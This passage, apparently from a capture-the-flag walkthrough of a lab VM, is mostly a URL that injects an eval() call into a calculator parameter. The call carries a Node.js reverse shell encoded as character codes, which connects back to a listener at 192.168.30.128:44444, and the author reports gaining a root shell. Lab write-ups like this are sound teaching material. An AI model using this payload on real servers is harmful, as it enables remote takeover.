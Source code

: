 ```
http://localhost:9999/calc?sum=eval(String.fromCharCode(32,40,102,117,110,99,116,105,111,110,40,41,123,32,118,97,114,32,114,101,113,117,105,114,101,32,61,32,103,108,111,98,97,108,46,114,101,113,117,105,114,101,32,124,124,32,103,108,111,98,97,108,46,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,99,111,110,115,116,114,117,99,116,111,114,46,95,108,111,97,100,59,32,105,102,32,40,33,114,101,113,117,105,114,101,41,32,114,101,116,117,114,110,59,32,118,97,114,32,99,109,100,32,61,32,40,103,108,111,98,97,108,46,112,114,111,99,101,115,115,46,112,108,97,116,102,111,114,109,46,109,97,116,99,104,40,47,94,119,105,110,47,105,41,41,32,63,32,34,99,109,100,34,32,58,32,34,47,98,105,110,47,115,104,34,59,32,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,34,110,101,116,34,41,44,32,99,112,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,44,32,117,116,105,108,32,61,32,114,101,113,117,105,114,101,40,34,117,116,105,108,34,41,44,32,115,104,32,61,32,99,112,46,115,112,97,119,110,40,99,109,100,44,32,91,93,41,59,32,118,97,114,32,99,108,105,101,110,116,32,61,32,116,104,105,115,59,32,118,97,114,32,99,111,117,110,116,101,114,61,48,59,32,102,117,110,99,116,105,111,110,32,83,116,97,103,101,114,82,101,112,101,97,116,40,41,123,32,99,108,105,101,110,116,46,115,111,99,107,101,116,32,61,32,110,101,116,46,99,111,110,110,101,99,116,40,52,52,52,52,52,44,32,34,49,57,50,46,49,54,56,46,51,48,46,49,50,56,34,44,32,102,117,110,99,116,105,111,110,40,41,32,123,32,99,108,105,101,110,116,46,115,111,99,107,101,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,32,105,102,32,40,116,121,112,101,111,102,32,117,116,105,108,46,112,117,109,112,32,61,61,61,32,34,117,110,100,101,102,105,110,101,100,34,41,32,123,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,125,32,101,108,115,101,32,123,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,111,117,116,44,32,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,101,114,114,44,32,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,125,32,125,41,59,32,115,111,99,107,101,116,46,111,110,40,34,101,114,114,111,114,34,44,32,102,117,110,99,116,105,111,110,40,101,114,114,111,114,41,32,123,32,99,111,117,110,116,101,114,43,43,59,32,105,102,40,99,111,117,110,116,101,114,60,61,32,49,48,41,123,32,115,101,116,84,105,109,101,111,117,116,40,102,117,110,99,116,105,111,110,40,41,32,123,32,83,116,97,103,101,114,82,101,112,101,97,116,40,41,59,125,44,32,53,42,49,48,48,48,41,59,32,125,32,101,108,115,101,32,112,114,111,99,101,115,115,46,101,120,105,116,40,41,59,32,125,41,59,32,125,32,83,116,97,103,101,114,82,101,112,101,97,116,40,41,59,32,125,41,40,41,59,49,43,49,59,10))`
```

A shell returns on my `netcat` listener and I can `sudo` as `root`.

![screenshot-23](/assets/images/posts/trollcave-walkthrough/screenshot-23.png)

:dancer:
